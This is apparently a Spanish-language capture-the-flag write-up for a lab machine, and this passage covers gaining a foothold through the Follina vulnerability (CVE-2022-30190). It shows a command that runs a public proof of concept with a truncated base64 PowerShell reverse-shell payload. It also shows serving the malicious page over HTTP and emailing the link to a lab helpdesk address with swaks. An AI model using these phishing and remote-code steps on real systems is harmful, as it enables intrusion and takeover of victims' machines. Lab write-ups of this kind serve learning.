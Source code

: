 Fuzzeando no encuentro nada relevante.

# Exploiting Follina -> Foothold

En el PDF que hemos visto antes nos adjuntaban una tabla con vulnerabilidades que supuestamente todavía no están parcheadas.

La primera de todas es el `CVE-2022-30190`, mas conocido como Follina.
![Write-up Image](images/Screenshot_1.png)

Podemos utilizar [este PoC](https://github.com/whokilleddb/Follina) para realizar la explotación.

Nos podemos copiar el one-liner en powershell de [revshells.com](https://revshells.com)

```shell
python3 follina_exploit.py -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY......"
```

Ahora nos vamos a dirigir a esta ruta y vamos a servir el `index.html` a través del puerto 80, por alguna razón solo consigo que este link se abra cuando se comparte un link sin especificar el puerto.
![Write-up Image](images/Screenshot_3.png)


```shell
cd /tmp/follina_0osyx6x_/www/

sudo python3 -m http.server 80
```

Ahora enviamos el correo electrónico a la dirección que habíamos encontrado antes con el enlace malicioso.

```shell
swaks --to itsupport@outdated.htb --from pointedsec@gmail.com --server mail.outd
ated.htb --body "http://10.10.14.125/" --header "Subject:Internal Web App Request"
```

Por alguna razón no funciona.
